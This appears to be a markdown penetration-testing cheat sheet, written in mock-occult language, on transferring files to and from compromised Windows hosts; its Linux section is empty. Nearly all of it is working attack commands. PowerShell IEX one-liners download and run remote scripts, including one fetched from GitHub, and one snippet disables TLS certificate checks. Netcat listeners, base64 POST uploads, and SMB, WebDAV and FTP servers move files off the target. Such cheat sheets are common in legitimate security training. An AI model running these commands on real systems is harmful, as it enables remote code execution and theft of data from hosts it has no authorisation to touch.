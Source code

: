 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
<summary><strong>🪟 Windows</strong></summary>
<details>  
<summary><strong>📥 Downloads</strong></summary>
<details>
<summary><strong>PowerShell Downloads</strong></summary>  
<details> 
<summary><strong>PowerShell DownloadFile Method</strong></summary>

Sync  
```powershell
(New-Object Net.WebClient).DownloadFile('<FILE URL>','<OUTPUT FILE>')
```
Async  
```powershell
(New-Object Net.WebClient).DownloadFileAsync('<FILE URL>','<OUTPUT FILE>')
```

</details>

<details>
<summary><strong>PowerShell DownloadString - Fileless Method</strong></summary>

Default  
```powershell
IEX (New-Object Net.WebClient).DownloadString('<FILE URL>')
```

Pipeline input  
```powershell
(New-Object Net.WebClient).DownloadString('<FILE URL>') | IEX
```
</details>

<details>
<summary><strong>PowerShell Invoke-WebRequest</strong></summary>

Default  
```powershell
Invoke-WebRequest <FILE URL> -OutFile <OUTPUT FILE>
```

ByPass Internet Explorer Error  
```powershell
Invoke-WebRequest <FILE URL> -UseBasicParsing | IEX
```

ByPass SSL/TLS Error  
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
# Command to download the file
```
</details>
</details>

<details>
<summary><strong>SMB Downloads</strong></summary>

**Default**

Create the SMB Server in Linux
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
Download using CMD in Windows
```cmd
copy \\<IP>\share\<FILE>
```

**Using credentialts**

Create the SMB Server in Linux
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
```
Mount the SMB Server in Linux
```cmd
net use n: \\<IP>\share /user:<USER> <PASSWORD>
copy n:\<FILE>
```

</details>

<details>
<summary><strong>FTP Downloads</strong></summary>  

Setting up a Python3 FTP Server in Linux
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21
```

**Option 1: Download file using Powershell**
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<OUTPUT FILE>')
```

**Option 2: Download file using CMD**  

Create a Command File for the FTP Client and Download the Target File
```cmd
echo open <IP> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET <FILE> >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
Once in FTP...
```cmd
open <IP>
USER anonymous
GET <FILE>
bye
```
Back in CMD...
```cmd
more <FILE>
```
---

</details>
</details>
<details>  
<summary><strong>📥 Uploads</strong></summary>  
<details>  
<summary><strong>PowerShell Uploads</strong></summary>  
<details>  
<summary><strong>PowerShell Base64 Encode & Decode</strong></summary>  

1. Encode File Using PowerShell 
```powershell
[Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))
Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

2. Decode Base64 String in Linux
```bash
echo <BASE64 STRING> | base64 -d > <FILE>
md5sum <FILE>
```
</details>
<details>  
<summary><strong>PowerShell Web Uploads</strong></summary>  

1. Installing a Configured WebServer with Upload in Linux
```bash
pip3 install uploadserver
python3 -m uploadserver
```
2. PowerShell Script to Upload a File to Python Upload Server
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<IP>:<PORT>/upload -File <FILE PATH>
```

</details>
<details>  
<summary><strong>PowerShell Base64 Web Upload</strong></summary>  

1. We use Netcat to listen in on a port we specify and send the file as a POST request.
```bash
nc -lvnp <PORT>
```
2. PowerShell Script to Upload a File to Python Upload Server
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE PATH>' -Encoding Byte))
Invoke-WebRequest -Uri http://<IP>:<PORT>/ -Method POST -Body $b64
```
3. We copy the output and use the base64 decode function to convert the base64 string into a file.
```bash
echo <BASE64 FILE> | base64 -d -w 0 > <FILE>
```
</details>
</details>
<details> 
<summary><strong>SMB Uploads</strong></summary>  

1. Installing WebDav Python modules in Linux
```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=<PORT> --root=/tmp --auth=anonymous
```
2. Uploading Files using SMB in Windows
```cmd
# DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server.
dir \\192.168.49.128\DavWWWRoot
copy <FILE PATH> \\<IP>\DavWWWRoot\

# You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \<IP>\sharefolder
copy <FILE PATH> \\<IP>\sharefolder\
```
If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.
</details>
<details> 
<summary><strong>FTP Uploads</strong></summary>  

**1. Start our FTP Server in Linux**
```bash
sudo python3 -m pyftpdlib --port 21 --write
```
**2. Upload the file in Windows**

Option 1: Upload file using Powershell
```cmd
(New-Object Net.WebClient).UploadFile('ftp://<IP>/ftp-hosts', '<FILE PATH>')
```
Option 2: Create a Command File for the FTP Client to Upload a File
Create a Command File for the FTP Client and Download the Target File
```cmd
echo open <IP> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT <FILE PATH> >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
Once in FTP...
```cmd
USER anonymous
PUT <FILE PATH>
bye
```
</details>
</details>
</details>

---

<details>
<summary><strong>🐧 Linux</strong></summary>
</details>

---
